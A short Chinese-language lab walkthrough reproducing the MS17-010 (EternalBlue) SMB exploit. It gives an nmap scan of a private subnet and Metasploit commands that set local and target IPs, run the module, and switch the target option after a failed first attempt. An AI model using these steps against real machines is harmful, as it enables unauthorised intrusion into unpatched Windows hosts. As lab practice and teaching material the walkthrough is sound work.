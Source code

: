 首先ping一下你的本机(lhost)和所要攻击的目标机(rhost)

## 1、NMAP扫描

成功后使用nmap先根据自己的lhost ip扫描，发现可以攻击的目标机：`nmap -T4 -A -v -Pn 192.168.153.1/24`

<img src="/images/MS1.png" width="80%" height="40%"/>

我们可以看到nmap扫描出了rhost的IP和开放的端口445，445端口是MS17复现的前提条件

## 2、MSFCONSOLE攻击

kali打开管理员权限,然后打开msfconsole

使用命令:`search MS17-010`

use 0

随后设置本机IP和目标机的IP并攻击

`set lhost 192.168.153.128`

`set rhost 192.168.153.132`

`run`

我们运行后发现复现失败，错误结果如下：

<img src="/images/MS2.png" width="80%" height="40%"/>

后来研究发现将target设置成其他的就行了

`set target 3`

然后再运行一次，发现成功了

参考链接：[内网渗透---MS17-010复现 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/458186348)